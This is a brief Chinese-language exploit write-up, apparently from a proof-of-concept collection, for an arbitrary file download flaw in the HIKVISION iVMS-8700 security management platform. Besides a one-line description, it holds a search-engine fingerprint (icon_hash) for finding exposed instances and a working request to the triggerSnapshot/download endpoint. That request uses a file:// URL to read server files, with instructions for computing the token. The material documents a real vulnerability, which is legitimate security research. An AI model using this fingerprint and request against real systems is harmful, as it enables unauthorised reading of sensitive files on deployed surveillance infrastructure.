 # HIKVISION iVMS-8700综合安防管理平台 download 任意文件下载漏洞

## 漏洞描述

HIKVISION iVMS-8700综合安防管理平台存在任意文件读取漏洞，攻击者通过发送特定的请求包可以读取服务器中的敏感文件获取服务器信息

## 漏洞影响

HIKVISION iVMS-8700综合安防管理平台

## 网络测绘

```
icon_hash="-911494769"
```

## 漏洞复现

登录页面

![image-20230704110859434](./images/image-20230704110859434.png)

验证POC， token 为 Url md5

```
/eps/api/triggerSnapshot/download?token=xxx&fileUrl=file:///C:/windows/win.ini&fileName=1 
```

![image-20230704111021242](./images/image-20230704111021242.png)
